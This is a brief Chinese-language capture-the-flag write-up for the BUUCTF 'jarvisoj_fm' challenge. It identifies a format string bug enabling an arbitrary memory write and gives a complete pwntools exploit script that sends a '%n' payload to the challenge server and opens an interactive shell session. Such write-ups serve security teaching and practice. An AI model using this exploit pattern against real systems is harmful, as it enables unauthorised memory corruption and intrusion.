 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#jarvisoj_fm)

这是一道格式化字符串漏洞执行任意地址写，checksec一下

# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p=process('./fm')
p=remote('node5.buuoj.cn',25516)
elf=ELF('./fm')
x=0x804A02C
payload=flat(b'%4c%13$n',p32(x))
p.sendline(payload)
p.interactive()
```

